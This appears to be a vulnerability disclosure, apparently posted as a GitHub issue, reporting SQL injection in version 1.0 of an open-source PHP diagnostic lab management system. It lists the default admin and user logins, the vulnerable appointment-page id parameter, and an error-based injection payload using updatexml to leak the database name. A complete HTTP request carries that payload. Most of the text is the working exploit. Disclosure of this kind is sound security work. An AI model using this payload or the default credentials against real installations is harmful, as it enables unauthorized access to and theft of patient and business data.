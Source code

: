 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 云影

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/appointments/manage_appointment.php?id=

Vulnerability location: /odlms/admin/appointments/manage_appointment.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/appointments/manage_appointment.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /odlms/admin/appointments/manage_appointment.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191257143-af4652c6-4380-4e8a-95fe-f59e5539c28d.png)

